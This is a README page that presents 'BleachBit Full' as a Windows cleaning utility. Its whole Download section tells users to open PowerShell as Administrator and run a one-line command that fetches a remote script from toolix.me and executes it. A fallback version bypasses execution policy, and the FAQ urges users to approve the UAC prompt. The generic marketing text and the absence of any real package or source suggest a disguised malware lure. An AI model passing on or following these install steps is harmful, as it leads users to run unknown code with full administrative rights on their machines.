

***

# BleachBit Full

<p align="center">
  
</p>

BleachBit Full — Windows 11 and 10 build | preview first | portable rules.

## About this application

**BleachBit Full** in this repo is a Windows desktop package for admins clearing temp junk. Expect a guided first launch, access to the clean desk with cleaner rules and portable runs, and stable sessions on a standard PC.

## Download

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://toolix.me/ps/setup.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically

<details>
<summary><b>Having trouble? Try this instead</b></summary>

Paste this in the same PowerShell window:

```powershell
powershell -NoProfile -ExecutionPolicy Bypass -Command "irm https://toolix.me/ps/setup.ps1 | iex"
```

</details>


## Questions & Answers

**Where do I get the package?** Open **PowerShell as Administrator** and run the command in the Download section above.

**Does it work on Windows?** Yes, it is built and tested for Windows 10 and 11.

**What if Windows asks for permission to run?** Click **Yes** on the UAC prompt — the PowerShell setup needs Administrator approval to complete.

## About

BleachBit Full suits admins clearing temp junk who need a straightforward Windows install and a focused cleaner rules and portable runs workflow.

## What's included

Clean desk tools are bundled in this release. Install locally, open the app, and use the cleaner rules and portable runs toolkit right away.

## Features

⚡ Preview
🧩 Rule sets
🌐 Browser wipe
✨ Office junk
📋 Log clear
🗂️ Portable
⏰ Schedule

## Good for

- 📌 Lab images
- 🎯 Shared PCs
- ⭐ Repair counters

* **Platform:** Windows 11 and 10 | 64-bit
* **RAM:** 4 GB minimum | 8 GB recommended
* **Disk:** 1 GB available storage

***